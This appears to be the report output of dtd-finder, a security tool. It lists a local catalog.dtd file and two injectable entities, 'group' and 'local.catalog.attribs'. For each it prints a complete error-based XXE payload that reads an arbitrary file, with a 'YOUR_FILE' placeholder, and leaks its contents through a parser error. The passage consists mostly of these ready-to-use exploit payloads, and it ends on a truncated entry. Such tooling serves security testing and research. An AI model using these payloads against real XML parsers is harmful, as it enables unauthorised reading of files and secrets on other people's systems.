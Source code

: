  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `group`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % group 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.catalog.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.catalog.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`
